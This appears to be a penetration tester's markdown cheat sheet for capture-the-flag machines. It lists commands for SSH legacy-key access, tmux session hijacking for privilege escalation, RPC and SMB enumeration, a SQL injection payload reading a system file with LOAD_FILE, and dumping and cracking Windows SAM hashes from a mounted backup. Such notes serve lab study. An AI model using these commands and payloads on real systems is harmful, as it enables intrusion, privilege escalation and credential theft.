 ```ssh-rsa``` turned off by default

```shell
# sign_and_send_pubkey: no mutual signature supported
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa <user>@<target ip> -i <private_key>
```

```shell
# hijacking tmux sessions for Privilege Escalation 
/usr/bin/tmux -S /.devs/dev_sess
```

Used in ```APT```

port 135 MSRPC

[rpcdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py)

[Windows DCOM version 5.6](https://airbus-cyber-security.com/the-oxid-resolver-part-1-remote-enumeration-of-network-interfaces-without-any-authentication/)

```shell
# mappings of RPC
python3 rpcdump.py <target ip> -p 135
# enumerating network interface, Windows DCOM version 5.6
python3 IOXIDResolver.py <target ip>
# Nmap IPv6 scan
nmap -6 -p- --min-rate 1000 <target IPv6 address>
# enumerating information from Samba systems
python3 enum4linux-ng.py -A -C <target IPv6 address>
# list all files from all readable shares
crackmapexec smb <target IPv6 address> -u '' -p '' -M spider_plus
```

Used in ```Bankrobber```

```sql
/* load file */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- - 
```

[TCP/UDP tunnel over HTTP](https://github.com/jpillora/chisel)


Used in ```Bastion```

```shell
sudo mkdir /mnt/bastion
sudo mount -t cifs -o username=NULL //<target ip>/Backups/WindowsImageBackup  /mnt/bastion -o rw
mkdir /tmp/vhd
guestmount --add "/mnt/bastion/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" --inspector --ro /tmp/vhd -v
cd /tmp/vhd/Windows/System32/config/
# using two file SYSTEM and SAM to dump the hashes
samdump2 SYSTEM SAM > /tmp/hashes.txt
# crack user password hash
hashcat -m 1000 user_hash.txt <password_list.txt>
```
